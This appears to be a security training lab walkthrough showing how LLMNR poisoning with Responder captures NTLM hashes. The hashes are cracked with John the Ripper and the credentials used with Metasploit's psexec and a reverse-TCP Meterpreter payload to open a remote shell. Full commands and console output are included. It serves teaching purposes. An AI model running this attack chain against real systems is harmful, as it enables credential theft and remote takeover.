




# Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a weak password.

Specifically, we are looking to take advantage of LLMNR.  

First, we will need to load our terminal and start responder.

Let's get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

Next, let’s become root:

adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ `sudo su -`

Let’s change into the Responder directory:

root@DESKTOP-I1T2G01:~# `cd /opt/Responder/`

And let’s start Responder:

root@DESKTOP-I1T2G01:/opt/Responder# `./Responder.py -I eth0`

Now, let's go back to your Windows system and open Windows Explorer and put in the string \\\Noooo into the address bar.

Give it a few moments and you should see some capture data showing up.  Please note there may be an error.  That is OK.

Next we need to kill Responder with Ctrl + c.  This will return the command prompt. 

Now, we need to change to the logs directory.

root@DESKTOP-I1T2G01:/opt/Responder# `cd logs/`

Once there, we will need to start John The Ripper"

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

Next, let’s open a new Ubuntu Command Prompt.

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

<pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!

